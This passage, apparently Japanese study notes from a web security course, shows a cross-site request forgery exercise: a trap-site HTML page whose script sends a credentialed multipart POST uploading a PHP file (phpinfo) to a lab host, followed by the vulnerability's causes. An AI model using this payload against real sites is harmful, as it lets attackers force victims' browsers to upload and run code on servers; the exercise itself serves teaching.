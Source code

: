 * 45-902.html[罠サイトに設置]

  ```html
  <body>
  <script>
    // 以下は送信するHTTPリクエストボディの中身
    // \n\ は改行(\n) と 継続行(行末の\)を示す
    data = '\
  ----BNDRY\n\
  Content-Disposition: form-data; name="imgfile"; filename="a.php"\n\
  Content-Type: text/plain\n\
  \n\
  <?php phpinfo();\n\
  \n\
  ----BNDRY--\n\
  ';
  
    var req = new XMLHttpRequest();
    req.open('POST', 'http://example.jp/45/45-005.php');
    req.setRequestHeader('Content-Type', 'multipart/form-data; boundary=--BNDRY');
    req.withCredentials = true;	//　クッキーの送信を許可
    req.send(data);
  </script>
  </body>
  ```

  罠サイトの上記htmlを参照するとリクエストが成功し、/img/a.phpがアップロードされる。そのままの画面で/img/a.phpをブラウザで実行するとphp.iniの情報が見える。

  ![image-20220723223331395](img/image-20220723223331395.png)

### 脆弱性が生まれる原因

1. form要素のaction属性にはどのドメインのURLでも指定できる
2. クッキーに保管されたセッションIは、対象サイトに自動的に送信される
